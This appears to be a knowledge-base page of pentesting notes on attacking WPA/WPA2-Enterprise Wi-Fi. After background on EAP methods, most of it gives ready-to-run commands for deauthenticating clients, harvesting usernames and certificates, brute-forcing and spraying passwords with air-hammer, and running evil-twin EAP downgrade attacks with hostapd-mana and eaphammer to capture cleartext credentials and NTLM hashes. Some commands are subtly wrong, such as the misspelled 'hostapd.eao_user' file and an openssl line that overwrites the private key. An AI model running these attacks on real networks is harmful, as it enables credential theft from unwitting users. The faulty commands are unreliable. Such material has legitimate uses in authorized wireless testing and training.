

---
tags:
  - knowledge-base
  - airmon-ng
  - airodump-ng
  - wpa
  - aireplay-ng
  - wireshark
  - tshark
  - crEAP
  - air-hammer
  - hostapd-mana
  - eaphammer
  - eap_buster
  - evil-twin
  - hostapd-wpe
  - wpa_sycophant
  - nagaw
  - eapmd5pass
category: wifi
---

# Overview

Wi-Fi Protected Access (WPA), Wi-Fi Protected Access 2 (WPA2), and Wi-Fi Protected Access 3 (WPA3) are security certification programs developed by the Wi-Fi Alliance after the year 2000 to secure wireless networks. These standards were introduced in response to significant vulnerabilities discovered in the earlier Wired Equivalent Privacy (WEP) system.

- `WPA (Wi-Fi Protected Access)`: Introduced as an interim improvement over WEP, WPA offers better encryption through TKIP (Temporal Key Integrity Protocol), but it is still less secure than newer standards.
- `WPA2 (Wi-Fi Protected Access II)`: A significant advancement over WPA, WPA2 uses AES (Advanced Encryption Standard) for robust security. It has been the standard for many years, providing strong protection for most networks.

WPA has two modes:

- `WPA-Personal`: It uses pre-shared keys (PSK) and is designed for personal use (home use).
- `WPA-Enterprise`: It is especially designed for organizations.

## WPA/WPA2 Personal (PSK)

Wi-Fi Protected Access (WPA) Personal was created to replace Wired Equivalent Privacy (WEP). WPA originally implemented the Temporal Key Integrity Protocol (TKIP), which used a dynamic per-packet key to address WEP's vulnerabilities, particularly those involving initialization vector attacks. In addition, WPA introduced Message Integrity Checks (MICs), improving security over the Cyclic Redundancy Checks (CRCs) used by WEP. WPA2 introduced support for CCMP and AES encryption modes, to provide more secure communications.

Although WPA/WPA2 Personal does not support some of the more robust security features seen in WPA/WPA2 Enterprise, it is still widely used for residential routers and in some business settings. Due to the nature of a re-used pre-shared key (Wi-Fi Password), it omits certain protections that are standard in more secure wireless environments. Some of the common methods for capturing the pre-shared key include `Handshake Capture`, `PMKID Capture`, `Wi-Fi Protected Setup`, and `Evil-Twin/Social Engineering` related attacks. With these techniques, an adversary will likely be able to retrieve the clear text version of the pre-shared key and subsequently compromise the wireless network.

## WPA/WPA2 Enterprise (MGT)

Wi-Fi Protected Access Enterprise was developed to meet the need for stronger wireless encryption standards. By utilizing 802.1X security, WPA Enterprise offers more secure communication through the Extensible Authentication Protocol (EAP). Unlike its personal counterpart, WPA/WPA2 Enterprise relies heavily on authentication methods, with one of the key differences being its use of a `RADIUS` server for authentication.

The standard employs Extensible Authentication Protocol-Transport Layer Security (EAP-TLS) to provide better encryption for client devices. WPA Enterprise offers various configuration options to accommodate different use cases, providing flexibility for network administrators. It also addresses vulnerabilities associated with pre-shared key attacks, such as dictionary and brute-force attacks, by supporting diverse authentication methods. However, misconfigurations and inherent design flaws have exposed vulnerabilities in the enterprise standard, making it susceptible to attacks such as evil-twin attacks (used to capture authentication hashes) or security-downgrading of client in order to retrieve plaintext credentials.

# WPA Enterprise

WPA/WPA2 Enterprise (MGT) is a robust security protocol that provides secure wireless access for organizations by leveraging individual user authentication, RADIUS integration, and various EAP methods. Its ability to centralize user management and ensure secure credential transmission makes it a preferred choice for enterprise environments, despite its complexity and associated costs. By implementing WPA Enterprise, organizations can significantly enhance their wireless network security and protect sensitive data from unauthorized access. On a WPA2-Enterprise network, all devices have their own unique set of credentials to access the network instead of sharing a single password. Because routers can’t store all these sets of login information, an authentication server called a RADIUS server is required. The RADIUS server verifies that the credentials of each user are valid by referencing a separate directory with user and device information.

WPA/WPA2 Enterprise utilizes 802.1x authentication in order to authenticate clients to the network. The process generally involves two key steps:

1. `Open System Authentication (Authentication and Association)`
2. `802.1x Authentication through either EAP, PEAP, or TTLS`

The key difference between WPA-Personal and WPA-Enterprise lies in how session keys are handled. In WPA-Enterprise, the initial connection process involves three parties: the `client`, the `access point`, and the `RADIUS` server, which work together to negotiate a unique session key for establishing a secure data connection. Unlike WPA-Personal, which relies on a common pre-shared key, WPA-Enterprise assigns each user a unique session identity, making the process more secure. Consequently, cracking WPA-Enterprise differs from cracking WPA/WPA2-Personal, where methods like capturing the `PMKID` or `EAPOL` (4-Way Handshake) are commonly used. In WPA-Enterprise, each user is authenticated with their own unique `username` and `password`.

## Authentication Framework

In WPA/WPA2-Enterprise, the authentication framework used is known as EAP (Extensible Authentication Protocol).

### Extensible Authentication Protocol (EAP)

Extensible Authentication Protocol (EAP) is a framework widely used in wireless networks and point-to-point connections to provide a flexible method for authentication. Instead of defining a specific way to authenticate, EAP supports a variety of authentication methods or "types," allowing it to adapt to different security requirements. EAP is often used in WPA/WPA2-Enterprise environments where authentication is more complex and robust than just using a pre-shared key (PSK). EAP is not a standalone protocol but a framework that allows for different authentication methods. It operates over lower-layer protocols like IEEE 802.1X, making it suitable for network access authentication.

## Authentication Methods

There are numerous authentication methods available in WPA2 enterprise environment, but the most commonly used in major organizations are PEAP, TTLS, and TLS. These methods are favored for their robust security and effectiveness in protecting sensitive information during authentication processes.

### Protected Extensible Authentication Protocol (PEAP)

Protected Extensible Authentication Protocol (PEAP) is an extension of the Extensible Authentication Protocol (EAP) designed to provide enhanced security for user authentication in wireless networks. PEAP is widely used in WPA/WPA2-Enterprise environments, where it creates a secure, encrypted tunnel between the client and the authentication server before transmitting credentials.

Two Phases of PEAP Authentication:

1. `Phase 1 (Outer Authentication)`: PEAP begins by establishing a TLS tunnel, ensuring that the communication between the client and the server is encrypted. This phase requires the server to have a digital certificate to authenticate itself to the client.
2. `Phase 2 (Inner Authentication)`: Once the encrypted tunnel is established, PEAP transmits the user’s actual authentication credentials securely through this tunnel. Common methods used in this phase include:

- `EAP-MSCHAPv2`: A popular method using username and password for authentication.
- `EAP-GTC`: Allows token-based authentication.

### Tunneled Transport Layer Security (TTLS)

Tunneled Transport Layer Security (TTLS) is an authentication protocol that extends the functionality of the Extensible Authentication Protocol (EAP). Like Protected EAP (PEAP), TTLS establishes a secure, encrypted tunnel between the client and the authentication server before transmitting user credentials. It is primarily used in enterprise environments for wireless and wired network authentication, providing flexibility in the choice of inner authentication methods.

### Transport Layer Security (TLS)

TLS (Transport Layer Security) employs Public Key Infrastructure (PKI) to authenticate clients and servers, ensuring a secure connection to a RADIUS authentication server or other types of authentication servers. This method is widely recognized for its robust security, as it requires both the client and server to present valid `digital certificates` during the authentication process. It is commonly used in high-security environments, such as enterprises and government organizations, where strong security is essential.

## 802.1x Authentication Types

There are two types of authentication in WPA-Enterprise:

1. `Username & Password Authentication (UPA)`: This method requires users to authenticate using a unique username and password combination.
2. `Certificate-Based Authentication (CBA)`: In this approach, authentication is done using digital certificates, which are typically issued to users or devices to ensure secure access.

### Username & Password Authentication (UPA)

In WPA/WPA2-Enterprise, Username and Password Authentication (UPA) is implemented through specific authentication frameworks that support the use of credentials (username and password) for network access. This is typically achieved using protocols like EAP, PEAP, or EAP-TTLS, which encapsulate username and password exchanges within a secure tunnel, protecting them from eavesdropping or interception during the authentication process.

Here is a table showing different authentication types for WPA-Enterprise based on EAP (Extensible Authentication Protocol):

| Method              | Description                                                                                                                                                                                                                                                    |
| ------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `EAP-FAST`          | It utilizes a Protected Access Credential (PAC) to establish a secure TLS tunnel for verifying client credentials.                                                                                                                                             |
| `EAP-GTC`           | It involves a text challenge issued by the authentication server, accompanied by a response generated by a security token.                                                                                                                                     |
| `EAP-MD5`           | It is unique among EAP methods as it only authenticates the EAP peer to the EAP server, lacking mutual authentication between the two parties.                                                                                                                 |
| `EAP-MSCHAPv2`      | It requires both the client and the RADIUS server to demonstrate knowledge of the user's password for the authentication process to be successful.                                                                                                             |
| `PEAP-MD5`          | It enables a RADIUS server to authenticate LAN stations by verifying an MD5 hash of each user's password.                                                                                                                                                      |
| `PEAP-GTC`          | It was developed by Cisco to ensure interoperability with existing token card and directory-based authentication systems through a secure, protected channel.                                                                                                  |
| `PEAP-MSChapV2`     | It is one of the most widely used forms of PEAP. It employs MSCHAPv2, allowing it to authenticate against databases that support this format, such as Microsoft NT and Microsoft Active Directory.                                                             |
| `TTLS-PAT`          | It allows the client to initiate the authentication process by tunneling the User-Name and User-Password Attribute-Value Pairs (AVPs) to the TTLS server.                                                                                                      |
| `TTLS-CHAP`         | It securely tunnels client password authentication within TLS records. The client initiates the MS-CHAP process by sending the User-Name, MS-CHAP-Challenge, and MS-CHAP.                                                                                      |
| `TTLS-MSCHAP`       | It securely tunnels client password authentication and the MSCHAP response within TLS records. The client initiates the MS-CHAP process by tunneling the User-Name, MS-CHAP-Challenge, and MS-CHAP-Response Attribute-Value Pairs (AVPs) to the TTLS server.   |
| `TTLS-MSCHAPv2`     | It securely tunnels client password authentication and the MSCHAPv2 response within TLS records. The client initiates the MS-CHAP process by tunneling the User-Name, MS-CHAP-Challenge, and MS-CHAP-Response Attribute-Value Pairs (AVPs) to the TTLS server. |
| `TTLS-EAP-MD5`      | It securely tunnels the MD5 hash within the TLS records for client authentication.                                                                                                                                                                             |
| `TTLS-EAP-GTC`      | It securely tunnels the GTC token within the TLS records for authentication purposes.                                                                                                                                                                          |
| `TTLS-EAP-MSCHAPv2` | It securely tunnels client password authentication and the MSCHAPv2 response within TLS records. The client initiates the MS-CHAP process by tunneling the User-Name, MS-CHAP-Challenge, and MS-CHAP-Response Attribute-Value Pairs (AVPs) to the TTLS server. |

### Certificate Based Authentication (CBA)

Certificate-Based Authentication (CBA) in WPA/WPA2-Enterprise is a robust authentication method that enhances security by utilizing digital certificates to authenticate users and devices connecting to a network. Unlike Username and Password Authentication (UPA), which relies on user credentials, CBA uses cryptographic certificates to establish trust between the client and the network.

| Method         | Description                                                                                                                                                                                                                                                                                     |
| -------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `EAP-TLS`      | It is an open standard that employs the TLS (Transport Layer Security) protocol to secure communications. It utilizes Public Key Infrastructure (PKI) for authenticating clients and servers, ensuring a secure connection to a RADIUS authentication server or similar authentication systems. |
| `PEAP-TLS`     | It is similar to EAP-TLS but offers enhanced security by encrypting portions of the certificate that are unencrypted in EAP-TLS.                                                                                                                                                                |
| `TTLS-EAP-TLS` | It securely tunnels the EAP-TLS certificate within TLS records, ensuring that the certificate remains protected during the authentication process.                                                                                                                                              |

## Attacking WPA/WPA2 Enterprise Authentication

There are two main ways to attack WPA-Enterprise:

1. `Brute-force Attack`: This method involves systematically guessing the username and password to crack the network. Attackers use automated tools to try multiple combinations until the correct credentials are found.
2. `Evil Twin Attack`: In this method, attackers set up a rogue access point (evil twin) that mimics the legitimate network. When users connect to the fake access point, their credentials can be captured. If the network uses UPA (Username & Password Authentication), attackers can retrieve either clear-text credentials or hashed passwords. For networks using CBA (Certificate-Based Authentication), attackers can still perform other types of attacks—such as hosting fake captive portals or phishing pages, DNS spoofing, or SSL stripping—once the client connects to the rogue access point with a certificate.

To perform a brute-force attack on a WPA2-Enterprise network, tools such as Air-Hammer or EAPHammer can be utilized effectively. If the brute-force attack fails, the next step to effectively retrieve credentials from end users is to implement an evil-twin attack with a RADIUS server. Our objective is to replicate as many attributes as possible from the target network, enabling clients to connect to our network and undergo the same authentication process they would with the legitimate access point. During this process, users must disclose their identity (user ID) and hashed password to join the network. Cracking the hashed password is typically faster and more practical than attempting to crack the Client Session Key (CSK).

There are many aspects to consider when employing the evil-twin attack that could allow it to be more effective. These are:

1. `How close are we physically to the targeted station (client/victim)?`
2. `What 802.1x authentication method is the access point using?`
3. `Is the access point using client-side SSL certificates (EAP-TLS/PEAP-TLS/TTLS-EAP-TLS)?`
4. `Is there a wireless intrusion detection or prevention system that will detect our actions?`

## Reconnaissance

WPA Enterprise is built on the 802.1X framework, which utilizes RADIUS and EAP (Extensible Authentication Protocol) to provide robust authentication for mid-sized enterprise networks. When scanning for available Wi-Fi networks with tools like `airodump-ng`, encountering an authentication type labeled as `MGT` indicates that the network is configured with WPA Enterprise.

Start monitor mode

```bash
sudo airmon-ng start wlan0
```

Start scan/capture

```bash
sudo airodump-ng wlan0mon -c 1
```

### PMK Caching and PMKID

The Pairwise Master Key Identifier (PMKID) is a unique identifier generated during the security association between a client and an access point (AP) using the Pairwise Master Key (PMK). PMKID plays a crucial role in facilitating faster reconnections for clients. When a client initially connects to an AP (let’s call it AP1) and later moves out of its range, the PMKID allows the client to skip the full EAP handshake if it reconnects to the same AP (AP1). This is achieved by including the cached PMKID in the (Re)association request when the client returns within the range of AP1, streamlining the reconnection process. The PMKCacheTTL, which determines how long a Pairwise Master Key (PMK) is stored in the cache, has a default value of 720 minutes according to [Microsoft](https://learn.microsoft.com/en-us/uwp/schemas/mobilebroadbandschema/wlan/element-pmkcachettl). This setting applies to WPA2 networks where PMKCacheMode is enabled, and it can be adjusted to any value between 5 and 1440 minutes.

From an EAP handshake, we can extract several critical details, including the `username`, `domain name`, and `handshake certificate`. If PMK caching is disabled on the access point (AP), we can force clients to perform a full EAP handshake by carrying out a de-authentication attack, disconnecting them, and prompting a reconnect. However, if PMK caching is enabled, we would need to wait for the PMK cache to expire before clients are required to complete a full EAP handshake again. The cache expiration time can range from 5 to 1440 minutes, depending on the configured PMKCacheTTL value.

> [!NOTE] A full EAP handshake will be captured through a de-authentication attack only if the PMK cache is disabled on the access point (AP). If PMK caching is enabled, the client may use the cached PMKID to reconnect without performing the full EAP handshake. In this case, the handshake capture will not occur, and we would have to wait for the PMK cache TTL to expire.

To start capturing WPA handshake data, we can use `airodump-ng` with the `-w WPA` argument to save the scan output into a file with the WPA prefix. This process will create a `WPA-01.cap` file, which will automatically update with new data as the scan continues.

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

Start the de-auth to capture the handshake

```bash
sudo aireplay-ng -0 1 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

Once we have captured the WPA handshake, we can use the `WPA-01.cap` file to extract important details such as the username, domain name, and handshake certificate from the captured data.

### Finding the Domain and Username

To identify the username used by the client, we can open the `WPA-01.cap` file in Wireshark and apply a filter for `eap`. This will show packets related to the Extensible Authentication Protocol (EAP).

We can look for a packet labeled as `Response, Identity`. Within this packet, we should see the username in the format `Domain\Username`.

We can also use [tshark](https://www.wireshark.org/docs/man-pages/tshark.html) to extract potential usernames from the WPA-01.cap file. The following command demonstrates how this can be done:

```bash
tshark -r WPA-01.cap -Y '(eap && wlan.ra == XX:XX:XX:XX:XX:XX) && (eap.identity)' -T fields -e eap.identity
```

Another effective tool for extracting domain and username information from clients is [crEAP](https://github.com/p0dalirius/crEAP). This tool works by utilizing airodump-ng in the background to scan for valid EAP handshakes. Once a valid handshake is detected, crEAP automatically extracts the username and domain information and presents it.

```bash
git clone https://github.com/p0dalirius/crEAP.git
```

```bash
python2.7 ./crEAP.py
```

If we’re not able to capture any valid user information after some time, we can perform a de-authentication attack to force clients to reconnect to the access point. If the access point has PMKID caching disabled, this will prompt a full EAP handshake, allowing crEAP to capture and display the username and domain name.

### EAP-PEAP and Anonymous Identities

In some enterprise environments, when the client responds with an identity, we may notice that it looks like anonymous or anonymous@something_x. In this case, the client and access point are anonymizing identities. This makes it much more difficult for us to retrieve the username along with the password (in the hash or plaintext form) later on. This is handled differently per EAP/PEAP method.

For another perspective on anonymous identities, this article is a great resource: [EAP-PEAP and EAP-TTLS Authentication](https://www.interlinknetworks.com/app_notes/eap-peap.htm).

#### EAP-Identity = anonymous

In Wireshark, if we notice that the first identity response indicates the username `anonymous`, it means our network supports anonymous identities. Essentially this works like the following:

1. The first phase allows the establishment of the TLS tunnel through EAP-PEAP or EAP-TTLS, in which the anonymous identity is sent to the RADIUS server during the identity request and response steps.
2. Once the TLS tunnel is established, the true user identity is disclosed between the RADIUS server and the client. This effectively allows them to move forward with the remainder of the exchange.

#### EAP-Identity = anonymous@realm_x

Suppose we notice that the identity response is `anonymous@realm_x`. In this case, users are relegated to different realms, which indicate the RADIUS servers where their true identities reside. This process can be broken up like the following:

1. The first phase allows the establishment of the TLS tunnel through EAP-PEAP or EAP-TTLS. However, this time the identity includes the realm which their RADIUS server resides in. At this point, the communications occur between these users and the realm RADIUS as a proxy.
2. The remainder of the requests to finish authentication are then conducted between the client and the respective RADIUS server to finish 802.1x authentication.

### Obtaining the Certificate

To establish a TLS tunnel between the management network and a client, the access point (AP) sends its certificate to the client in clear text, which means it can be intercepted by anyone. This certificate contains valuable information that can be leveraged to create a fake certificate with matching fields for a Rogue AP attack. Additionally, it can reveal details about the corporate domain, internal emails, and other relevant information about the AP.

To obtain the handshake certificate in Wireshark, we can apply the filter.

```wireshark
(wlan.sa == XX:XX:XX:XX:XX:XX) && (tls.handshake.certificate)
```

This filter focuses on the AP's BSSID to isolate the relevant packet containing the certificate. The extracted certificate can provide valuable information about the access point.

We can also use the [pcapFilter.sh](https://gist.githubusercontent.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2/raw/78e097e1d4a9eb5f43ab0b2763195c04f02c4998/pcapFilter.sh) bash script to automatically extract the handshake certificate from a packet capture, which uses `tshark` to extract the certificate and copy it to the `/tmp/certs` directory.

```bash
wget https://gist.githubusercontent.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2/raw/78e097e1d4a9eb5f43ab0b2763195c04f02c4998/pcapFilter.sh
```

```bash
./pcapFilter.sh -f WPA-01.cap -C
```

The extracted certificate reveals several critical details, such as `C=country, ST=state, L=locale, O=origin, CN=canonical name`. These details are invaluable when setting up our fake access point, as they allow us to configure it to closely mimic the legitimate AP, increasing the chances of deceiving clients into connecting.

### Finding Authentication Methods Supported by RADIUS Server

With a valid username in hand, we can use [EAP Buster](https://github.com/blackarrowsec/EAP_buster) to identify the specific EAP methods that the RADIUS server (behind a WPA-Enterprise access point) supports for that user.

```bash
git clone https://github.com/blackarrowsec/EAP_buster.git
```

```bash
sudo ./EAP_buster.sh SSID 'domain\username' wlan0mon
```

Some users might be restricted to a limited set of authentication methods. Therefore, it's advisable to perform an authentication check for all identified users.

## Brute Force Attacks

In WPA-PSK networks, only one password grants access, while WPA Enterprise networks may have thousands of valid username and password combinations. Since the passwords are often chosen by end users, they are frequently simple and vulnerable to brute-force attacks, making WPA Enterprise networks susceptible to such threats.

### Air-Hammer

```bash
git clone https://github.com/Wh1t3Rh1n0/air-hammer.git
```

To execute an attack using `air-hammer`, we must provide the following essential parameters:

- The intended wireless interface.
- The SSID (network name) of the target wireless network.
- A list of usernames to target.
- A single password, or a list of passwords, to be tested against each username.

> [!INFO] The username must include the domain as well e.g. 'Domain\User'

#### Brute Force a User

```bash
echo 'Domain\User' > users.txt
sudo python2.7 air-hammer.py -i wlan0 -e SSID -p wordlist.txt -u users.txt
```

#### Password Spraying

We can create a user list from known names in the target organization, statistically likely names, default lists, etc. then throw passwords at them to see if we get a hit.

We will need to add the domain to the user names, we can use `awk` for this.

```bash
cat possibleusers.txt | awk '{print "Domain\\" $1}' > users.txt
```

Now that we have a users list we can use `air-hammer` to pass a password list or a single password to attempt login

`Try a single password 'Password123' against the users.txt list`
```bash
sudo python2.7 air-hammer.py -i wlan0 -e SSID -P Password123 -u users.txt
```

`Try a list of passowrds against the users.txt list`
```bash
sudo python2.7 air-hammer.py -i wlan0 -e SSID -p rockyou.txt -u users.txt
```

> [!INFO] When using a password list it will try the first password in the list for each user before moving on to the next password

## EAP Downgrade Attack

When a client connects to a WPA-Enterprise capable network, it must undergo the authentication process we previously discussed. If we aim to exploit the EAP negotiation process, which is integral to 802.1x security, we can potentially downgrade the standard for our evil-twin setup to facilitate credential retrieval. EAP and PEAP methods can be interchanged for compatibility among client devices, allowing us to identify the standards they use to connect to our evil-twin network.


The client will attempt to connect to our fake access point (Rogue AP) or evil twin using all supported authentication methods. However, if our access point only supports EAP-GTC, the client will ultimately downgrade to that method and provide the credentials in clear text.



Using this method, we present EAP authentication methods in order of weakest to strongest. If a client accepts a weak method, such as `EAP-GTC` or `TTLS-PAP`, we may be able to retrieve the credentials in clear text. If these methods are not accepted, the client might still accept a weaker standard, allowing us to crack their password more quickly.

### Enumeration

We will need two WLAN interfaces to perform the downgrade attack. One interface, `wlan0`, will be set to monitor mode for scanning and conducting de-authentication attacks against clients. The second interface, `wlan1`, will be in master mode, hosting our fake access point (AP) for clients to connect to.

We need to enable monitor mode on wlan0

```bash
sudo airmon-ng start wlan0
```

Once our interface is in monitor mode, we can use `airodump-ng` to scan for available Wi-Fi networks and their associated clients.

```bash
sudo airodump-ng wlan0mon -c 1 -w WPA
```

If PMK caching is disabled on the access point (AP), we can perform a de-authentication attack on the client using `aireplay-ng` to capture a valid WPA handshake, which includes EAP packets. This allows us to identify the username.

```bash
sudo aireplay-ng -0 3 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

When analyzing the captured .cap file in Wireshark, apply the `eap` filter. Navigate to the `"Response, Identity"` packet, and we will find the username.

You can also use `tshark` to get the username as well

```bash
tshark -r WPA-01.cap -Y '(eap && wlan.ra == XX:XX:XX:XX:XX:XX) && (eap.identity)' -T fields -e eap.identity
```

We can now utilize `EAP-Buster` to determine if the RADIUS server supports other authentication methods for this user.

```bash
EAP_buster.sh SSID 'Domain\User' wlan0mon
```

### Attacking

We'll explore two ways to perform this attack. The first method involves using `hostapd-mana`, where we manually create self-signed certificates and set up the access point. The second method utilizes the `eaphammer` tool, which automates the entire process for us.

#### hostapd-mana

To conduct a downgrade attack on clients connected to an enterprise network, we first need to create a sophisticated evil-twin access point (AP). This AP must include a RADIUS server and the ability to negotiate the EAP method that clients will use to connect. [Hostapd-mana](https://github.com/sensepost/hostapd-mana) is an excellent tool for this purpose, as it supports KARMA attacks, negotiable EAP methods, and other valuable features.

To get started, we need to create a `hostapd.conf` file.

```bash
cat > hostapd.conf << 'EOF'
# Interface configuration
interface=wlan1
ssid=TargetWifi
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=hostapd.eap_user

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1

# Certificate Configuration
ca_cert=ca.pem
server_cert=server.pem
private_key=server-key.pem
dh_file=dh.pem
EOF
```

In this file, we specify many parameters. These parameters can be broken down like the following:

| Item                        | Description                                                                                                                                                                                                                                                                  |
| --------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Interface`                 | The interface on which we will be hosting the access point.                                                                                                                                                                                                                  |
| `SSID`                      | This needs to be the same as the SSID of the target network.                                                                                                                                                                                                                 |
| `Channel 3`                 | If our interface has the same spoofed MAC address as the target network's BSSID, we need this to be a different channel. If the MAC address of our interface is different, this can be the same channel as the target AP.                                                    |
| `eap_user_file`             | This is the location of our eap user file. We will use this file to control the EAP negotiation of any client which connects to our network. Doing so will allow us to downgrade the EAP method correctly in order to retrieve weaker hashes or even plain text credentials. |
| `enable_mana`               | Enables MANA mode, which is the KARMA beacon attack. This will help stations know that our access point exists, making transitions easier and our attack less intrusive. We may still need to employ deauthentication later.                                                 |
| `Mana_loud`                 | This option sets whether or not all beacons will be retransmitted to clients. If we are attempting to be stealthy, we could set this to zero.                                                                                                                                |
| `Mana_credout`              | The location where we will be storing any captured credentials or hashes.                                                                                                                                                                                                    |
| `Mana_WPE`                  | Enables EAP credential capture mode, which is what we need in order to receive client credentials.                                                                                                                                                                           |
| `Certificate Configuration` | We must include the location of our different SSL certs which we will generate later. This is due to the cert requirements for the TTLS-PAP and GTC modes respectively among others.                                                                                         |

Next, to gain refined control over EAP method negotiation between our fake access point and the client, we need to create the `hostapd.eap_user` file referenced in our `hostapd.conf` file for Mana with the following content:

```bash
cat > hostapd.eao_user << 'EOF'
* TTLS,PEAP,TLS,MD5,GTC
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MD5 "challenge1234" [2]
EOF
```

With this `hostapd.eap_user` file, we instruct client devices attempting to join our network to use TTLS-PAP as their authentication method. In 802.1x security, the client and access point negotiate which method to use. By specifying the order of methods—starting with TTLS-PAP, then GTC, followed by TTLS-CHAP, TTLS-MSCHAP, and so on-we can potentially trick vulnerable client devices into using TTLS-PAP or GTC, thereby exposing their cleartext identity and credentials. Additionally, we specify the challenge password `challenge1234`, which will be used in the generation of our server's private keys.

To use any TLS-based method, we must first generate our keys and certificates; otherwise, the client device will be unable to complete the authentication process with our fake access point. The first step is to generate our Diffie-Hellman parameters. This can be done using the following command:

```bash
openssl dhparam -out dh.pem 2048
```

Next, we need to generate our Certificate Authority (CA) key. This can be accomplished with the following command:

```bash
openssl genrsa -out ca-key.pem 2048
```

We also need to generate the x509 certificate to create our final ca.pem file. We'll aim to closely match the details of the legitimate access point, to minimize suspicion from connected clients and prevent them from realizing it's a fake AP.

```bash
openssl req -new -x509 -nodes -days 100 -key ca-key.pem -out ca.pem
```

When generating our x509 certificates, we should aim to make the information as similar as possible to that of the actual target. If we have access to a certificate from the internal network, using it would be preferable to self-signed certificates, as it may be trusted by the client devices.

At this stage, we need to generate our server certificate and private key, as specified in the hostapd.conf file. This can be done with the following command:

```bash
openssl req -newkey rsa:2048 -nodes -days 100 -keyout server-key.pem -out server-key.pem
```

We should ensure that the information in our new x509 certificate matches the details from the previous certificate, as this will make our attack appear more legitimate. Additionally, the challenge password used should match the one specified in the .eap_user file. Finally, we need to generate the x509 certificate for the server. This can be done with the following command:

```bash
openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem
```

At this point, we are ready to execute our attack. We should have our certificates, configuration files, and other necessary resources prepared. To bring up our fake access point, we can use the following command:

```bash
sudo hostapd-mana hostapd.conf
```

If everything is set up correctly, our access point should be operational and ready to capture credentials from client devices. To observe our access point in action and monitor the connectivity of client devices, we can start an `airodump-ng` session in a second terminal.

```bash
sudo airodump-ng wlan0mon -c 1
```

If, after some time, connected clients do not automatically switch to our network due to the KARMA attack (and they remain associated with the original access point in our airodump-ng session), we may need to perform a `de-authentication attack`. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using the following command, specifying the target access point's BSSID and the client’s MAC address.

```bash
sudo aireplay-ng -0 6 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

Once a client successfully connects to our fake access point and EAP negotiation is successful, we should observe client/user authentication in the hostapd-mana tab. We should also have cleartext user credentials showing here as well.

During the EAP authentication process, the client disclosed its identity and password, as it would in a typical scenario. Since `EAP GTC` is a weaker standard, we are able to retrieve the cleartext credentials. If our attack was running for a while and we missed this prompt, we can also check our credential output file for the information, as shown below:

```bash
cat credentials.creds
```

Our credential file will not only capture cleartext credentials, but also hashes that may be captured. Not all devices are susceptible to `GTC` or `TTLS-PAP vectors`, and as such they may output different credentials when they connect to our fake access point. However, not all devices are equal in their security, and as such we should be able to capture credentials in these cases. With this said, it is always important to do ample reconnaissance before employing an enterprise evil-twin attack. As the better the information we gather, the better our attack will turn out.

#### EAPHammer

We can also perform the downgrade attack using [eaphammer](https://github.com/s0lst1c3/eaphammer). This powerful tool automates the entire process for us.

First, we need to create self-signed certificates that eaphammer will use to set up our fake access point. This can be done using the `--cert-wizard` command. This will allow you to enter the information for the cert in the terminal, try and match the cert as closely with the target as you can.

```bash
sudo eaphammer --cert-wizard
```

Once our self-signed certificates are created, we can use the following command to start our fake access point. Initially, we can set `--negotiate balanced`, which makes eaphammer first attempt to downgrade to GTC and then immediately fallback to stronger EAP methods if the downgrade fails. This balanced approach is designed to maximize impact while minimizing the risk of prolonged EAP negotiations. If this fails, we can use `--negotiate weakest` to perform a full EAP downgrade attack.

```bash
sudo eaphammer --interface wlan1 --negotiate balanced --auth wpa-eap --essid SSID --creds
```

This command will start our fake `WPA-EAP` access point with the SSID. We then need to wait for clients to connect to our network. If, after some time, clients do not automatically switch to our network, we may need to perform a de-authentication attack. This will disconnect clients from the target access point, encouraging them to connect to our fake AP. We can execute this attack using the following command, specifying both the target access point's BSSID and the client’s MAC address.

```bash
sudo aireplay-ng -0 6 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX wlan0mon
```

Once a client successfully connects to our fake access point and EAP negotiation is successful, we should observe client/user authentication which should contain a user NTLM hash and user cleartext credentials.

